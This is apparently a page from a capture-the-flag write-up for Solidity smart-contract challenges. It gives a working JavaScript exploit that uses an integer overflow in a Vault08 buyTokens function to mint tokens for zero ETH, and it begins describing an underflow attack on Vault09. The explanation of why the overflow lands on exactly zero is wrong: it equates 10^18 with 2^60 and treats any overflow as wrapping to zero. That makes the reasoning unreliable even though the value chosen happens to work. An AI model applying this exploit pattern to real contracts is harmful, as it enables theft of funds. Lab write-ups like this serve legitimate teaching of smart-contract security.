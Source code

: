 \documentclass[12pt]{article}
\begin{document}
\subsection*{Vault08: Tokens for Free}

To breach \texttt{Vault08}, you need to exploit an integer overflow vulnerability in the \texttt{buyTokens} function. Since the contract uses Solidity 0.7.6, which lacks built-in protection against overflow, you can find a value for \texttt{numTokens} that causes \texttt{numTokens * TOKEN\_PRICE} to overflow to exactly 0. This allows you to purchase tokens without paying any ETH.

To achieve this, use a value for \texttt{numTokens} that, when multiplied by 1 ether ($10^{18}$), overflows and wraps around to exactly 0 in a uint256. A perfect value for this is $2^{238}$, since $2^{238} \times 10^{18} = 2^{238} \times 2^{60} \approx 2^{298}$, which exceeds the maximum uint256 value ($2^{256} - 1$) and wraps around to 0.

\begin{verbatim}
// Connect to the vault contract as the player
const playerVault = vault.connect(player);

// Calculate the token amount that will cause an overflow
// 2^238 is chosen because when multiplied by 1 ether (10^18), 
// it will overflow exactly to 0 in Solidity 0.7.6
const numTokens = BigInt(1) << BigInt(238);

// Call buyTokens with 0 ether value
// Due to integer overflow, numTokens * TOKEN_PRICE will be 0
await playerVault.buyTokens(numTokens, { value: 0 });

// Verify that we received the tokens
const playerBalance = await vault.tokenBalances(playerAddress);
console.log("Player token balance:", playerBalance.toString());

// Call breachVault to complete the challenge
await playerVault.breachVault();
\end{verbatim}

\subsection*{Vault09: Less Is More}

To breach \texttt{Vault09}, you need to exploit an integer underflow vulnerability in the \texttt{transferFrom} function. The key observation is that the contract checks if the message sender has enough tokens, but not whether the \texttt{from} address has enough tokens. This allows you to cause an underflow in the \texttt{tokenBalances[from] -= amount} operation.
\end{document}
